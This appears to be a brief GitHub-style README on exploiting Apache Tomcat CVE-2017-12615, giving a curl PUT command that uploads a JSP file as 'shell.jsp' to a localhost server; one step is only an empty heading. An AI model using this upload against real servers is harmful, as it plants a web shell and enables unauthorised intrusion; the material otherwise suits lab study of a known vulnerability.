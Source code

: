 # Apache Tomcat - CVE-2017-12615 - PUT a jsp file

## Requirements

 - None

## Exploitation

### Step 1: Whitelist your IP in the API

### Step 2: Upload your JSP file

```sh
curl -X PUT http://localhost/shell.jsp/ -d @- < test.jsp
```

## References
 - https://tomcat.apache.org/
